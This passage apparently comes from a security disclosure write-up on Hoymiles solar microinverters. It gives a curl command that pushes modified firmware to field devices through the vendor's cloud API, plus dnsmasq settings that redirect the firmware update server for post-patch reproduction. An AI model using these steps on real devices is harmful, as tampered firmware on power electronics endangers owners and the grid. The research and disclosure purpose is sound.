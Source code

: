One of my modified update images is still [there](http://fwupdate.hoymiles.com/cfs/hex/2308/26/1462407114327724032.hex). Some 0x55 have been added at the end of the flash:
```
:2041920055555555555555555555555555555555555555555555555555555555555555556D
```

### Update the devices in field with modified firmware

We just need to send the **UPGRADE** commands to the devices via the cloud API (here DTU):
```sh
curl https://neapi.hoymiles.com/pvm-ctl/api/0/dev/command/put -H "content-type: application/json" -X POST -H "Authorization: [TOKEN 1.xxx]" -d '{"action":2,"dev_type":1,"dev_sn":"4111XXXXXXXX","dtu_sn":"4111XXXXXXXX","data":{"upg_patch_id":xxx,"file_uri":"/cfs/hex/xxxx/xx/[name from server].hex","file_name":"[file name].hex","file_crc":9827}}'
```
Answer:
```json
{"status":"0","message":"success","data":"xxxxxxx"}
```

## Post-patch reproduction

Here are some instructions to reproduce part of the exploit chain post-patch. 
Modifications of the firmware update files can be performed, then CRCs and Headers can be re-calculated according the the [image-format](#image-format) section. These modified update files can be installed into the devices according to the following instructions.

> [⚠️WARNING⚠️]
> By modifying the firmware of the MI, the control of the power electronics can be changed and this is safety relevant. **Do not connect a device with modified firmware to the grid**. A device with modified firmware can also be overheated / destroyed / bricked (DTU can be bricked too). I do not assume any responsibility for any damage.

### Restrictions

* Only own, registered devices can be updated.
* The official update firmware server is replaced with an http server in the same network. The GET command from the DTU is redirected to this server with `dnsmasq`.

### Hardware Setup

The solar side of the MI shall be connected to a power supply with 30 V and 3 A. The grid side can be connected to a signal generator.

An additional WiFi router (w/ 2.4 GHz radio) is needed. Connect the DTU to this router with the app. Connect the WAN port of the router to a PC ethernet port (in the following example `enp1s0` w/ `192.168.2.1` as PC IP address - adapt).

Here is a block diagram:
![POSTPATCH](https://raw.githubusercontent.com/veganmosfet/Balcony_in_the_cloud/main/pictures/postpatch.png)

### Software Setup

1. Install `dnsmasq` and add following lines to `/etc/dnsmasq.conf`:
```bash
address=/fwupdate.hoymiles.com/192.168.2.1
interface=enp1s0
dhcp-range=192.168.2.50,192.168.2.150,255.255.255.0,12h
dhcp-option=enp1s0,3,192.168.2.1
```
Then restart `dnsmasq`.
